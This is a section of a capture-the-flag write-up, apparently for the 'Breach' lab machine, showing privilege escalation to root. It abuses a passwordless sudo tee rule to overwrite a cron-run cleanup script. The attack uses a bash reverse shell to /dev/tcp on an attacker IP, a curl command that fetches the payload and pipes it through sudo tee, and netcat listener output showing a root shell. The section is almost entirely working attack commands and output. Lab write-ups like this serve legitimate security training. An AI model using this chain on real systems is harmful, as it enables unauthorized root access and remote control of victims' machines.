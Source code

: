 ## 3.2 Getting root with bad permission, crontab and sudo
Enumerating sudo commands:

```
blumbergh@Breach:~$ sudo -l
blumbergh ALL=(root) NOPASSWD: /usr/bin/tee /usr/share/cleanup/tidyup.sh
```

Bash reverse shell:
```
 cat reverse.bash
 #!/bin/bash
 . /etc/profile
 export PATH=/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin
 export SHELL=/bin/bash
 /bin/bash -i >& /dev/tcp/192.168.110.104/4447 0>&1
```

Let's download the reverse shell and put it in tidy.sh:
```
curl http://192.168.110.104/reverse.bash | sudo /usr/bin/tee /usr/share/cleanup/tidyup.sh
```

Now we are root:
```
root@tsz:/var/www/html# nc -lvp 4447
listening on [any] 4447 ...
192.168.110.140: inverse host lookup failed: Unknown host
connect to [192.168.110.104] from (UNKNOWN) [192.168.110.140] 34612
bash: cannot set terminal process group (2969): Inappropriate ioctl for device
bash: no job control in this shell
root@Breach:~# id
id
uid=0(root) gid=0(root) groups=0(root)
```
